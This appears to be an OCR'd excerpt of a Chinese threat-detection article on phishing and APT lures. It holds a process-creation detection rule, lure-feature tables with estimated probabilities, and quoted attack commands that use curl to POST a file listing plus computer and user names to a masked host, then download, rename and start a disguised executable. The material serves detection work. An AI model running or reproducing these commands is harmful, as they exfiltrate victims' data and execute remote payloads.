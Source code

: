 像 WinRAR 这样的文件压缩工具创建 cmd、PowerShell 子进程是不常见的和可疑的。但是，钓鱼邮件在成功利用该漏洞后，恶意负载可能会生成这些进程来执行任意代码（例如：钓鱼邮件运行阶段）。我们可以查找 WinRAR.exe 生成的可疑子进程和文件路径：%APPDATA%\\Nvidia\\xxx.ocx 来判定是否为钓鱼邮件。

```plain
label= "Process" label= "Create" parent_process="*\winRAR.exe" 
"process" IN ["*\cmd.exe", "*\cscript.exe", "*\mshta.exe", "*\powershell.exe", 
"*\pwsh.exe", "*\regsvr32.exe", "*\rundll32.exe", "*\wscript.exe"]
```

##### APT-SHTML 诱饵 - 特征

| SHTML 诱饵特征 | 钓鱼邮件概率 |
| --- | --- |
| 非企业正式公文格式 | 90% |
| 邮件内容中的语法错误 | 50% |
| 可疑电子邮件地址 | 90% |
| 可疑登录页面 | 90% |
| 附带吸引眼球的文档 | 90% |
| 附带可疑 URL 链接 | 70%（大概率是灰产） |

##### APT-LNL 诱饵 - 特征

| CMD |
| --- |
| dir "%public%\\Documents" > %public%\\music\\logs.lgo & curl -X POST -F "file=@C:\\users\\public\\music\\logs.lgo" ht^tp^s://XXXX.co^m/ank.php?ka=%computername%\_\_%username% |
| curl -o %public%\\Documents\\svchost2.png [https://XXXX.com/mwvcis.png](https://xxxx.com/mwvcis.png) copy %public%\\Documents\\svchost2.png %public%\\Documents\\svchost2.exe |
| start %public%\\Documents\\svchost2.exe |

命令解读：

> 1.  通过**dir 命令**将公共文件夹中**Documents 目录**下的文件和文件夹列表输出到 logs.lgo 文件中。
> 2.  使用**curl 命令**将 logs.lgo 文件以 POST 请求的形式发送到**ht^tp^s://XXXX.co^m/ank.php?ka=%computername%\_\_%username%**这个 URL（其中，%computername%表示计算机名称，%username%表示当前用户名）。
> 3.  使用**curl 命令**从**[https://XXXX.com/mwvcis.png](https://xxxx.com/mwvcis.png)**下载文件，并将其保存为%public%\\Documents\\svchost2.png。
> 4.  使用**copy 命令**将**%public%\\Documents\\svchost2.png 文件**复制为**%public%\\Documents\\svchost2.exe 文件**。
> 5.  使用了**start 命令**来启动 **%public%\\Documents\\svchost2.exe**这个可执行文件。

##### APT-MSI 安装包 - 特征

| MSI 安装包特征 | 钓鱼邮件概率 |
| --- | --- |
| 将安装目录设置为 LocalAppDataFolder | 80% |
| 转储文件到安装目录 | 80% |
| 通过指定的命令行执行可执行文件 | 50% |
| 执行存储在二进制表中的 PE | 50% |
| 在安装目录中执行转储文件 | 80% |
